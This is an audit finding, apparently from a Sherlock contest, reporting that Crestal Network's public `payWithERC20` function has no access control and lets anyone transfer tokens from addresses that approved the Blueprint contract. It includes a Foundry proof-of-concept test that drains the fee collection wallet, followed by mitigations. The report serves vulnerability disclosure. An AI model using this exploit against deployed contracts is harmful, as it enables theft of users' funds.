 Curved Yellow Hamster

High

# A malicious user can steal payment tokens from other users including the `feeCollectionWalletAddress`

### Summary

The public visibility assigned to the `Payment::payWithERC20` function without any access control enables any user to attempt sending payment tokens from an arbitrary address to another arbitrary address. Thus, a malicious user can call the `Payment::payWithERC20` function specifying `feeCollectionWalletAddress` or any user's address as the `fromAddress` and any address of their choice as the `toAddress` thereby, stealing funds.

### Root Cause

The `Payment::payWithERC20` function has a `public` visibility (see [here](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32))without any access control and therefore can be called by just anyone.

### Internal Pre-conditions

1. A user, say `userA` has to approve the `Blueprint` contract to spend the payment tokens in question
2. The malicious user has to be aware that `userA` has approved for the `Blueprint` contract to spend payment tokens belonging to them
3. malicious user then calls the `Payment::payWithERC20` function specifying the address of `userA` as `fromAddress` while specifying any other address as the `toAddress`.

### External Pre-conditions

NA

### Attack Path

1. `userA` calls the `BlueprintCore::userTopUp` and approves for the `Blueprint` contract to spend payment tokens on their behalf.
2. A malicious user sees this transaction in the memepool and sees that `userA` has given approval to the `Blueprint` contract
3. The malicious user calls the `Payment::payWithERC20` function specifying the address of `userA` as `fromAddress` while specifying their own address as the `toAddress` and specify an amount less or equal to the amount approved by `userA`.

### Impact

The user who approves for the `Blueprint` contract to spend their tokens will have their tokens stolen by the malicious user. Note that if it happens that the `feeCollectionWalletAddress` gives the `Blueprint` contract such approvals, the malicious user will steal the funds from the `feeCollectionWalletAddress`. Thus innocent users will loss their funds.


### PoC

Add the following piece of code into `BlueprintV5.t.sol`

```javascript
function test_SpomariaPoC_payWithERC20_CanLeadToLossOfFunds() public {

        address malUser = makeAddr("MAL_USER");

        uint256 topUpAmount = 100 * 10 ** 18;

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the test account
        mockToken.mint(address(this), topUpAmount);

        // Approve the blueprint contract to spend tokens
        mockToken.approve(address(blueprint), topUpAmount);

        // Expect the UserTopUp event
        vm.expectEmit(true, true, true, true);
        emit BlueprintCore.UserTopUp(
            address(this), blueprint.feeCollectionWalletAddress(), address(mockToken), topUpAmount
        );

        // Call the userTopUp function
        blueprint.userTopUp(address(mockToken), topUpAmount);

        // Verify the top-up amount
        uint256 userBalance = blueprint.userTopUpMp(address(this), address(mockToken));
        assertEq(userBalance, topUpAmount, "User top-up amount is incorrect");

        // Verify the token transfer
        uint256 blueprintBalance = mockToken.balanceOf(address(blueprint.feeCollectionWalletAddress()));
        assertEq(blueprintBalance, topUpAmount, "Blueprint fee collection wallet balance is incorrect");

        // verify user balance after top up
        uint256 balance = mockToken.balanceOf(address(this));
        assertEq(balance, 0, "sender does not have the correct token balance after top up");

        uint256 balBefore = mockToken.balanceOf(malUser);
        assertEq(balBefore, 0);

        vm.startPrank(blueprint.feeCollectionWalletAddress());
        mockToken.approve(address(blueprint), type(uint256).max);
        vm.stopPrank();

        vm.startPrank(malUser);
        uint256 amountToSteal = mockToken.balanceOf(blueprint.feeCollectionWalletAddress());

        blueprint.payWithERC20(address(mockToken), amountToSteal, blueprint.feeCollectionWalletAddress(), malUser);
        vm.stopPrank();

        assertGt(mockToken.balanceOf(malUser), balBefore);
        assertEq(mockToken.balanceOf(blueprint.feeCollectionWalletAddress()), 0);
    }
```

Then run `forge test --match-test test_SpomariaPoC_payWithERC20_CanLeadToLossOfFunds`


### Mitigation

1. Change the vissibility of the `Payment:payWithERC20` from `external` to `internal`. This way, the `Blueprint` and `BlueprintCore` contracts can still call it since they both inherit the `Payment` contract while preventing any user from making an external call to the `Payment:payWithERC20`.

2. Alternatively, if option one is not suitable, consider adding an access control to the `Payment:payWithERC20` to allow only the specified contracts call the function and no more.
